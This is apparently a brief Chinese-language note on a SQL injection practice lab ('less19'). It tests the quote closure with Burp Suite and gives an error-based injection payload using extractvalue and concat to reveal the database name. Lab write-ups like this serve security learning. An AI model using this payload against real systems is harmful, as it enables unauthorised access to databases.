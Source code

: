 



# less19

![image-20220115182748991](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less19.assets/image-20220115182748991.png)



使用burpsuite



测试一下：

`\`

![image-20220115183224235](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less19-referer.assets/image-20220115183224235.pngg)

闭合方式为`'`



```
1' and extractvalue(1,concat(0x7e,(select database()),0x7e)) or '1'='1
```

